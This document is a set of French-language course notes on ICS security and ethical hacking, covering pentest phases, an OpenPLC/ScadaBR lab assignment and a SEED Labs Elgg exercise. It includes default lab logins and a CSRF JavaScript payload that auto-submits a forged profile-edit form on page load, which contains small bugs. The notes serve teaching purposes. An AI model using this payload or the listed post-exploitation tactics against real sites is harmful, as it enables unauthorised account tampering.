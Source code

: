 ```yaml
---
title: Sécurité ICS
description: Cours de sécurité ICS
---
```


!!! info "Prof"
    - Azzeddine RAMRAMI
    - ENSTA / IP
    - [azzeddine.ramrami@owasp.org](mailto:azzeddine.ramrami@owasp.org)

Mieux que Hack the Box: [seedsecuritylabs.org](https://seedsecuritylabs.org)

Certif SANS: [SANS.org](https://www.sans.org/cyber-security-courses/advanced-exploit-development-penetration-testers/)

Pour utiliser Wireshark sur un switch, il faut mettre son port en mode SPAN pour que tout le traffic soit mirror dessus. 

## Ethical hacking

### Méthodes

- CEH v12 
- CPTE Mile2
- CPTS
- OSTMM

Toutes ses méthodes ont 3 phases:

- Information gathering
    - 3 phases de préattaque (?)
        - Information Gathering
            - Google Dork
            - OSINIT
            - whois
            - Données publiqus et réseaux sociaux
                - fingerprinting
                - footprinting
        - Detecting live system
            - Targets:
                - IP, plage IP, Site web, PLC, RTU etc
                - Protooles: IP, IoT (Zigbee, Sigfox, Lora etc), Modbus, TCP/IP
            - Scanning
                - nmap
                - hping3
                - Versions des OS et software
            - Enumeration:
                - shares
                - passwords
    - 1 phase de Vulnerability Assessment
        - Confirmation des CVE et CWE trouvés 
- Exploitation
    - Option 1: NOk (On n'arrive a rien à part un DOS ou DDOS)
    - Option 2: Ok
- Post-exploitation
    - Maintaining access (Backdoor (C&C ([Control & Command](https://www.varonis.com/blog/what-is-c2))), pivoting ...)
    - Cover your tracks (Logs read by SIEM, File Integrity Monitoring (FIM)(Ex: Tripwire) etc)

### Principaux DLL

- kernel32
- advapi
- user32
- ntdll
- wsock32
- ws2_32
- netapi32

## Devoir 1

!!! info "A rendre avant le 10 par email"
    Ecrire un rapport qui répond aux tâches indiquées avec des captures d'écran

### 1 - Lab ICS

#### Requis

- OpenPLC avec ScadaBR (HMI)
    - La config se fait dans Scada 
- OpenPLC - Factory IO (PLC)
    - OpenPLC: master
    - Factory IO: Server

#### Travail

##### PLC -> Factory IO

- Prendre la scène 4 dans Factory IO
- Configurer la scène avec un serveur Modbus TCP avec inputs, coils et registers comme nécessaire
- Créer le programme pour faire tourner l'usine (comme on veut)
- Simuler / debugger / uploader le programme et vérifier que tout fonctionne

##### HMI -> PLC

- Lancer ScadaBR (`dhcclient` mais on a assez de compétences pour ca :smile:)
- Configurer pour se connecter a l'OpenPLC
- Créer une HMI pour la scène (libre)
- Vérifier que lorsque Factory IO est en mode RUN, la HMI récupère les états de chaque Input et Coil
- Réaliser des attaques sur OpenPLC et HMI(Injection, DOS etc)

## OWASP top 10 & AppSec

Formule de risque simplifiée: Risque = Impact * AssetValue<br>
Mais aussi: Risque = Vunérabilité, attaque, surface d'attaque, exploit

[Logiciel de hijack de Java](https://github.com/yehgdotnet/JHijack)

## Devoir 2

[https://seedsecuritylabs.org/Labs_20.04/Web/](Labs)

```sh
// Aliases for the Compose commands above
dcbuild # Alias for: docker-compose build
dcup # Alias for: docker-compose up
dcdown # Alias for: docker-compose down
dockps
docksh <n° recu a la commande précédente> # Il suffit d'entrer les caractères qui le rendent unique
```

Logins Elgg:

UserName | Password
---|---
admin | seedelgg
alice | seedalice
boby | seedboby
charlie | seedcharlie
samy | seedsamy

```js

// Fonction qui crée et envoie le formulaire POST
function contrefacon()
{
    // Contient tous les champs a passer en POST
    var champs;

    champs += "<input type=’hidden’ name=’name’ value=’Alice’>"; // Nom de l'utilisateur
    champs += "<input type=’hidden’ name=’briefdescription’ value=’Samy is my Hero’>"; // Description
    champs += "<input type=’hidden’ name=’accesslevel[briefdescription]’ value=’2’>"; // Visibilité de la description
    champs += "<input type=’hidden’ name=’guid’ value=’56’>"; //Identifiant de l'utilisateur sur le site

    // Formulaire
    var formulaire = document.createElement("form");

    formulaire.action = "http://http://www.seed-server.com/profile/edit/";
    formulaire.innerHTML = fields;
    formulaire.method = "post";

    // Ajouter le formulaire a la page existante
    document.body.appendChild(formulaire);

    // Envoi du formulaire
    formulaire.submit();
}

// Invocation de la contrefacon quand la page se charge
window.onload = function() { contrefacon();}
```
